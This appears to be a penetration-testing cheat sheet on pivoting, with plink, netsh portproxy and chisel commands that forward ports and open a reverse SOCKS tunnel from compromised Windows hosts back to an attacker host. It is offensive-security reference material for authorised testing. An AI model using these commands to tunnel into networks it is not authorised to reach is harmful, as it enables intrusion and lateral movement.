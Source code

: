 # Port Forwarding & Tunneling

## Tools

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
* [https://github.com/3proxy/3proxy](https://github.com/3proxy/3proxy)
* [https://cheatsheet.haax.fr/network/pivot\_techniques/](https://cheatsheet.haax.fr/network/pivot\_techniques/)

## Readings

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
* [https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy](https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy)

## Port Forwarding

### Plink

Source: [http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html](http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html)

Remote port forwarding, setup from target:

```
plink.exe -ssh -l kali -pw ilak -R attacker_ip:attacker_port:127.0.0.1:target_port attacker_ip
```

{% hint style="info" %}
When doing a first connection to a host, plink will ask whether to cache the host key or not. This step may not be seen in a typical reverse shell.

To avoid the interaction, pipe an "`echo y"`: `cmd /c echo y | plink.exe ...`
{% endhint %}

### Netsh

High privilege shell required.

Local port forwarding, setup from relay:

```
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=relay_ip connectport=445 connectaddress=target_ip

# Configuring corresponding Windows firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=relay_ip localport=8888 action=allow
```

## Socks Proxy (Chisel)

When trying to pivot through a Windows relay.

On attacker:

```
chisel server -p 4444 --reverse --socks5
```

On relay:

```
.\chisel.exe client <attacker ip>:4444 R:1080:socks
```

Don't forget to update /etc/proxychains4.conf:

```
socks5 127.0.0.1 1080
```
